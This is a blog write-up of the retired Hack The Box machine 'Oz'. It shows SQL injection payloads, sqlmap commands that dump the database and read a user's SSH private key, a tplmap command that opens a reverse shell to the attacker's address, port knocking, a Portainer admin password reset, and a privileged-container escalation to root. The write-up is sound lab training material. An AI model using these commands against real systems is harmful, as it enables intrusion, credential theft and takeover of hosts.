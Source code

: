 ```yaml
---
layout: post
title: Hack The Box - Oz
categories: hack-the-box
image: /hackthebox/oz/0.png
---
```


<hr>
### Quick Summary 
#### Hey I'm back with another Hack The Box write-up , this time Oz has retired and it was rated as a hard box. I enjoyed this box , it was really fun. It had some docker tricks which were very cool , It's a linux box and it's ip is 10.10.10.96 so let's jump right in.
#### Check out my [other Hack The Box write-ups](/categories) 
![](/images/hackthebox/oz/0.png)
<hr>
### Nmap
#### As always we will start by running nmap to scan for open ports and services.
`nmap -sV -sT -o nmapinitial oz.htb`
#### Note : I added the ip to my /etc/hosts file as oz.htb
![](/images/hackthebox/oz/1.png)
#### And we see only http on port 80 and 8080. We also see that it's running a python server.
<br>
<hr>
### Enumerating http
#### On port 80 there's a web page with the title "OZ Webapi" and it's asking us to register a username.
![](/images/hackthebox/oz/2.png)
#### On port 8080 we see a login page.
![](/images/hackthebox/oz/3.png)
#### If we tried running gobuster on port 80 to find hidden dirs and files we will get a wildcard response.
![](/images/hackthebox/oz/4.png)
#### And that's because the server doesn't respond with 404. Instead of 404 , when we request a non-existing page the server responds with a line of random chars.
#### Here I requested `http://oz.htb/anything`
![](/images/hackthebox/oz/5.png)
#### And this makes it hard to enumerate because we will always get a 200 response. So what are we going to do is to use wfuzz to filter the responses for us.
`wfuzz -u http://oz.htb/FUZZ/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hl 0`
#### This won't show us any response with 0 lines.
![](/images/hackthebox/oz/6.png)
#### After a few seconds we get /users/
<br>
<hr>
### SQL Injection
#### When we visit /users/ in the browser we get the default response : please register a username.
![](/images/hackthebox/oz/7.png)
#### So we have /users/ which is a valid path , what happens if we tried a username that probably exists, something like admin ?
![](/images/hackthebox/oz/8.png)
#### We get a json response `username : "admin"` 
#### Let's try a single quote `'`
![](/images/hackthebox/oz/9.png)
#### We get 500 Internal Server Error, So this endpoint is probably vulnerable to SQL injection , Let's try something else , `'OR 1 OR'`
![](/images/hackthebox/oz/10.png)
#### We get another username : "dorthi" , So this is a confirmation that it's vulnerable to sqli , Let's do another injection and see if we can enumerate users 
`' or length(username)='4`
![](/images/hackthebox/oz/11.png)
#### Another username : "toto"
#### Let's try 7 
![](/images/hackthebox/oz/12.png)
#### tin.man 
#### So we confirmed it's sqli , The next step is to use sqlmap.
`sqlmap -u http://10.10.10.96/users/toto --all`
#### This will dump the whole database
![](/images/hackthebox/oz/13.png)
#### After some time it will start dumping tables and we will notice an interesting table `users_gbw`
![](/images/hackthebox/oz/14.png)
#### So if we try to crack those hashes the only one that will crack is wizard.oz : `wizardofoz22`
#### Now we have a username and its password let's login to port 8080
![](/images/hackthebox/oz/15.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/16.png)
#### And success !
<br>
<hr>
### Dorthi's ssh key
#### We login to something that looks like a ticketing system, After reading the tickets we will find 2 interesting tickets.
![](/images/hackthebox/oz/17.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/18.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/19.png)
#### So this ssh key is on the database and we have sqli on that database , Let's grab it.
`sqlmap -u "http://10.10.10.96/users/toto" --string "username" --file-read "/home/dorthi/.ssh/id_rsa" -v1`
![](/images/hackthebox/oz/20.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/21.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/22.png)
#### Cool so now we can ssh and own user, No wait ...
#### By looking at the nmap scan again:
![](/images/hackthebox/oz/1.png)
#### There's no ssh listening !
<br>
<hr>
### Server Side Template Injection
#### If we return to that ticketing system we will see that we can add a ticket , it asks us for a name and a description.
![](/images/hackthebox/oz/23.png)
#### By capturing that request in burp we will see a POST request with two parameters name and desc.
![](/images/hackthebox/oz/24.png)
#### And the response outputs them.
![](/images/hackthebox/oz/25.png)
#### If we used [tplmap](https://github.com/epinna/tplmap) (a tool like sqlmap for automatic template injection exploitation) we will find that it's vulnerable.
`python tplmap.py -u 'http://10.10.10.96:8080' -X POST -d 'name=*&desc=anything' -c 'token=TOKEN' --reverse-shell 10.10.xx.xx 1337`
![](/images/hackthebox/oz/26.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/27.png)
#### Then we check our listener , we will get a reverse shell.
<br>
<hr>
### Knock , Knock
#### After some enumeration we will find in `/` two unusual dirs `containers` and `.secret` , in `.secret` there is a file called `knockd.conf` 
![](/images/hackthebox/oz/28.png)
#### That's a configuration file for ssh port knocking, Port knocking means that in order to connect to an ssh server you need to ping some ports in a specific sequence to be able to connect.
![](/images/hackthebox/oz/29.png)
#### In our situation the ports are 40809 50212 46969 and all of them are udp
#### In the other dir `containers` there's a dir called `database` which has some files, One of them is called `start.sh`
![](/images/hackthebox/oz/30.png)
#### And we grabbed some passwords maybe we will need them later.
#### Now we know the port sequence let's ssh into the box. We can use knockd to do that but I used a small script that uses nmap.
![](/images/hackthebox/oz/31.png)
#### We `chmod 600` to the key then execute our script.
![](/images/hackthebox/oz/32.png)
#### The key is protected with a password , Let's try the db password we found earlier : "N0Pl4c3L1keH0me"
![](/images/hackthebox/oz/33.png)
#### And we owned user ! 
<br>
<hr>
### Portainer
#### After some regular enumeration if we do sudo -l we will find that dorthi can run some commands as root `docker network ls` and `docker network inspect *`
![](/images/hackthebox/oz/34.png)
#### Let's first list the networks 
`sudo docker network ls`
![](/images/hackthebox/oz/35.png)
#### We see some networks let's inspect the first one `bridge`
`sudo docker network inspect bridge`
![](/images/hackthebox/oz/36.png)
#### We find `portainer-1.11.1` and its ip is `172.17.0.2` , Portainer is the user interface for docker management and it usually runs http on port 9000 , we can also check that by using nmap. Luckily it's installed on the box.
![](/images/hackthebox/oz/37.png)
#### And we see that port 9000 is listening , so now we need to set up an ssh port forwarding to be able to access that portainer.
#### We can edit the ssh port knocking script to add the forwarding command.
![](/images/hackthebox/oz/38.png)
#### Now when we visit localhost on port 9000 we get a login page.
![](/images/hackthebox/oz/39.png)
#### By using the HTTP API as documented [here](https://gist.github.com/deviantony/77026d402366b4b43fa5918d41bc42f8) we can re-assign the admin password by sending a POST request to `/api/users/admin/init` with data as : `{"username":"admin","password":"new-password"}`
#### I did it with burp and set the password to `l0c4l` :
![](/images/hackthebox/oz/40.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/41.png)
<br>
<hr>
### Root
#### After we login we will see the dashboard showing the status of the containers.
![](/images/hackthebox/oz/42.png)
#### In the containers tab there are 4 container running.
![](/images/hackthebox/oz/43.png)
#### If we check the container webapi we can use its console.
![](/images/hackthebox/oz/44.png)
#### We can create a new container with the image of webapi and mount `/root` or the whole filesystem `/` then use the console to access it.
#### First we will grab the image name from the images tab : "webapi:latest"
![](/images/hackthebox/oz/45.png)
#### Then we will create a container and name it anything , I named it "NiceContainer" , add the image , then add a volume with path `/root` and mount it to /mnt/ 
![](/images/hackthebox/oz/46.png)
#### Then from the security tab we choose privileged mode.
![](/images/hackthebox/oz/47.png)
#### Click create , Use the console , `cd /mnt` and we own root ! :D
![](/images/hackthebox/oz/48.png)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### previous Hack The Box write-up : [Hack The Box - Waldo](/hack-the-box/waldo/)
<hr>
